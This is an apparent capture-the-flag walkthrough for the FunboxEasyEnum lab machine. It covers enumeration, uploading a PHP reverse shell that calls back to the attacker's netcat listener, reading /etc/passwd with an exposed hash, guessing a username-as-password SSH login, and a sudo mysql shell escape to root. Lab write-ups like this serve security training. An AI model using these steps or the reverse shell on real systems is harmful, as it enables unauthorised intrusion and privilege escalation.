 Exploitation Guide for FunboxEasyEnum
Summary

In this walkthrough, we’ll exploit a file upload vulnerability in a web application to gain a foothold on the target. This leads to remote code execution. We’ll then use simple, manual password guessing to escalate our privileges and abuse the user’s sudo permissions on the mysql binary to spawn a root shell.
Enumeration
Nmap

We’ll begin with a simple nmap scan.

sudo nmap 192.168.120.148     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 10:27 EST
Nmap scan report for 192.168.120.148
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

If we browse the web server on port 80, we find a default Apache web page.
GoBuster

Next, we’ll try brute-forcing the web server’s hidden files and directories with the /usr/share/dirb/wordlists/common.txt wordlist, searching for PHP, text, and HTML files.

(kali㉿kali)-[~] $ gobuster dir -u http://192.168.120.148 -w /usr/share/dirb/wordlists/common.txt -x php,txt,html

===============================================================
Gobuster v3.0.1
...
/index.html (Status: 200)
/javascript (Status: 301)
/mini.php (Status: 200)
/phpmyadmin (Status: 301)
/robots.txt (Status: 200)
...

The output includes mini.php which contains a custom Zerion Mini Shell 1.0 application.

Exploitation
File Upload Vulnerability

This page may allow uploads to the web root (/var/www/html/). Since the PHP file format seems to be supported, let’s try uploading a PHP reverse shell. We’ll update the IP address and port number as needed.

cp /usr/share/webshells/php/php-reverse-shell.php .
                                                                                                                              
sed -i "s/$ip = '127.0.0.1';/$ip = '192.168.118.5';/g" php-reverse-shell.php                            
                                                                                                                              
sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php
                                                                                                                              


Next, we’ll click Browse, select our reverse shell file, and click upload. Once uploaded, the file appears in the web root directory listing. Let’s start a Netcat listener on port 4444 and trigger our shell by navigating to http://192.168.120.148/php-reverse-shell.php.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.148/php-reverse-shell.php                                          
WARNING: Failed to daemonise.  This is quite common and not fatal.
Successfully opened reverse shell to 192.168.118.5:4444
...

Our Netcat listener presents us with a shell as the www-data user.

nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.148] 34362
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:54:03 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Escalation
User Enumeration

As part of our enumeration efforts, let’s check the user accounts on the target:

$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
karla:x:1000:1000:karla:/home/karla:/bin/bash
...
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh

Although the file contains the password hash for the user oracle, cracking that password finds hiphop , but not further for privesc.

The passwd file contains several users, and every user, except for lissy, has a home directory:

$ ls -l /home
total 20
drwxr-xr-x 2 goat   goat   4096 Feb 16 13:25 goat
drwxr-xr-x 2 harry  harry  4096 Jan 28 12:03 harry
drwxr-xr-x 2 karla  karla  4096 Feb 16 13:23 karla
drwxr-xr-x 2 oracle oracle 4096 Feb 16 13:23 oracle
drwxr-xr-x 2 sally  sally  4096 Jan 28 12:03 sally

SSH

We could use a tool like hydra to mount an online SSH brute-force attack (which will take several minutes), but let’s take a step back and try some less-complicated password attempts. We’ll begin by attempting the username as the password for each user. Here are the username and password pairs we’ll attempt:

goat:goat
harry:harry
karla:karla
oracle:oracle
sally:sally

One of the credential pairs (goat:goat) works!

ssh goat@192.168.120.148
goat@192.168.120.148's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)
...
goat@funbox7:~$ id
uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)

Sudo Abuse

Now, let’s attempt to escalate our privileges. We’ll begin with a quick sudo scan:

goat@funbox7:~$ sudo -l
Matching Defaults entries for goat on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User goat may run the following commands on funbox7:
    (root) NOPASSWD: /usr/bin/mysql

The scan reveals that we can run /usr/bin/mysql as root through sudo. A GTFOBins article presents a simple command that may give us a root shell.

goat@funbox7:~$ whoami
goat
goat@funbox7:~$ sudo /usr/bin/mysql -e '\! /bin/sh'
# whoami
root


